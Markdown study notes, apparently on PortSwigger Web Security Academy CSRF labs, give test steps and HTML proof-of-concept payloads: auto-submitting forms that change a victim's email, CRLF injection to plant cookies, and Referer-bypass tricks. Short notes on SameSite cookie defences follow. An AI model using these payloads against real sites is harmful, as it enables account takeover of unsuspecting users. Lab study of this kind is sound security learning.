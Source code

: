 ### No Defense
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token validation depends on request method
#### Test
- Change request method
#### POC
```html
<img src="https://ac9a1f8f1e76e13f80360e0e009400d7.web-security-academy.net/my-account/change-email?email=test%40myemail.com">
```

***

### CSRF where token validation depends on token being present
#### Test
- Remove token from request and see if it passes
#### POC
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token is not tied to user session
#### Test
- Get a fresh csrf token from the update email page via inspecting the source
- Open a private/incognito browser window, log in to your other account, and intercept the update request
- replace the csrf token with the one captured earlier
#### POC
```html
<form method="POST" action="https://ac001fe61f576f3b808b0f7100fd0037.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="KdhHWIn09SrZyjySlgfaHCS9TzXB0iss">  
    </form>
    <script>
    document.forms[0].submit();
    </script>
```

***

### CSRF where token is tied to non-session cookie
#### Test
- changing the session cookie logs you out, but changing the csrfKey cookie merely results in the CSRF token being rejected. This suggests that the csrfKey cookie may not be strictly tied to the session. 
- Observe that if you swap the csrfKey cookie and csrf parameter from the first account to the second account, the request is accepted.
- search for endpoints that gets reflected in the Set-Cookie header
- use CRLF injection to inject new cookie
#### POC
```html
<form method="POST" action="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="xe5r3sdRe2Ceizmo4blfpy02UKxpN03k">  
    </form>
    <img src="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=jGDyLoTZDIE2A47Chp2F9MjrjDNHdnHI" onerror="document.forms[0].submit()"> 
```

*** 

### CSRF where token is duplicated in cookie
#### Test
- Check if csrf token is validated against cookie
- Search for a point where cookie value gets reflected
#### POC
```html
<form method="POST" action="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    <input type="hidden" name="csrf" value="fake">  
    </form>
    <img src="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()"> 
```

***

### CSRF where Referer validation depends on header being present
#### Test
- Check if the referer header is checked and used as CSRF mitigation
#### POC
```html
<meta name="referrer" content="no-referrer"> 
<form method="POST" action="https://ac081f091ee034ef802e1dbd00d60000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="sasdasdasd@myemail.com">
</form>
<script>
       document.forms[0].submit();
</script>
```

***

### CSRF with broken Referer validation
#### Test 
- Does the website seems to accept any Referer header as long as it contains the expected domain somewhere in the string?
#### POC
```html
<form method="POST" action="https://acc21f351e145baf809bc06c00b30072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    </form>
<script>
    history.pushState("", "", "/?acc21f351e145baf809bc06c00b30072.web-security-academy.net");
       document.forms[0].submit();
</script>
```

#### CSRF where 

***

## Mitigations
### Same Site Cookie
- The **`SameSite`** attribute of the [`Set-Cookie`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie) HTTP response header allows you to declare if your cookie should be restricted to a [first-party](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#third-party_cookies) or same-site context.
- A cookie is associated with a domain. If this domain is the same as the domain of the page you are on, the cookie is called a _first-party cookie_. If the domain is different, it is a _third-party cookie_.
-  the server hosting a web page sets first-party cookies, the page may contain images or other components stored on servers in other domains (for example, ad banners), which may set third-party cookies
-  These are mainly used for advertising and tracking across the web.

### Types
- Lax: When you set a cookie' SameSite attribute to Lax, the cookie will be sent along with the GET request initiated by third party website.
	- Resources can be loaded by iframe, img tags, and script tags. These requests can also operate as GET requests, but none of them cause TOP LEVEL navigation. Basically, they don't change the URL in your address bar. Because these GET requests do not cause a TOP LEVEL navigation, thus cookies set to Lax won't be sent with them.
- Strict: Cookies will only be sent in a first-party context and not be sent along with requests initiated by third party websites.
- None: Cookies will be sent in all contexts